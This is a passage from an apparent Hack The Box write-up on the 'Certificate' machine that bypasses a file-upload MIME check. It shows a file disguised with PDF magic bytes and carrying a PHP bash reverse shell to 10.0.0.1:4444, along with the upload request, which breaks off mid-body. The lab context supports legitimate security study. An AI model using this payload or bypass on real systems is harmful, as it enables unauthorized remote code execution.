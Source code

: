 ```shell
HTTP/1.1 400 Bad Request
Date: Sun, 01 Jun 2025 16:43:39 GMT
Server: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
X-Powered-By: PHP/8.0.30
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 105
Connection: close
Content-Type: text/html; charset=UTF-8

<h1>400 Bad Request</h1><p>The request you sent contains bad or malicious content(Invalid MIME type).</p>
```

```shell
- We accept only the following file types: .pdf .docx .pptx .xlsx
```

As next step in our testing we added some `magic bytes` to a file containing a `PHP reverse shell` payload and uploaded this one as well.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certificate/files]
└─$ cat hello.pdf 

%PDF-1.7
%

<?php system("bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'"); ?>
```

```shell
POST /upload.php?s_id=13 HTTP/1.1
Host: certificate.htb
Content-Length: 504
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://certificate.htb
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarycjDWmABXxGevgRFE
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://certificate.htb/upload.php?s_id=13
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=dqro66lqebbl5iu3oi6e38bsve
Connection: keep-alive

------WebKitFormBoundarycjDWmABXxGevgRFE
Content-Disposition: form-data; name="info"

How to be the employee of the month! - Quizz-3
------WebKitFormBoundarycjDWmABXxGevgRFE
Content-Disposition: form-data; name="quizz_id"

13
------WebKitFormBoundarycjDWmABXxGevgRFE
Content-Disposition: form-data; name="file"; filename="hello.pdf"
Content-Type: application/pdf


%PDF-1.7
%

```